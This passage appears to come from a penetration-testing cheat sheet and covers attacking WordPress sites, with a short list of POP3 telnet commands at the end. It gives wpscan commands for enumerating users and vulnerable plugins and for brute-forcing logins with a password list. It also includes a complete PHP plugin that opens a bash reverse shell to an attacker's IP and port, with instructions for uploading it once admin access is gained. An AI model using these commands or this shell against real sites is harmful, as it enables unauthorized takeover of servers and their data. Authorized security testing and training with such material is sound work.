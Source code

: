 #### Wordpress

!!! info
    🐈‍⬛ Hashcat mode -> 400

```shell
wpscan --url <url>
# enumerate vulnerable plugins, users, vulnerable themes and timthumbs and save it to file
wpscan --url <url> -e vp,u,vt,tt -o result.log
# scan popular plugins aggresively and get vulns
wpscan --url <url> -e p --api-token <API_TOKEN> --plugins-detection aggressive
# brute force found users, use -U admin for a single user
wpscan --rua -e u --url <url> -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt 
```

If admin permissions are granted, upload a plugin with a reverse shell.
If unable to upload a plugin, edit the theme with a PHP reverse shell.

```shell
mkdir rs
cat > rs/rs.php
<?php
/*
Plugin Name: Reverse Shell
Plugin URI: http://your-site.com/
Description: A simple plugin to establish a reverse shell using /bin/sh.
Version: 1.0
Author: Pentester
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'") ?>

zip -r rs.zip rs
```

### POP3 - 110, 995 (TLS)

```shell
telnet <ip> <port>

# commands
USER uid           Log in as "uid"
PASS password      Substitue "password" for your actual password
STAT               List number of messages, total mailbox size
LIST               List messages and sizes
RETR n             Show message n
DELE n             Mark message n for deletion
RSET               Undo any changes
QUIT               Logout (expunges messages if no RSET)
TOP msg n          Show first n lines of message number msg
CAPA               Get capabilities
```

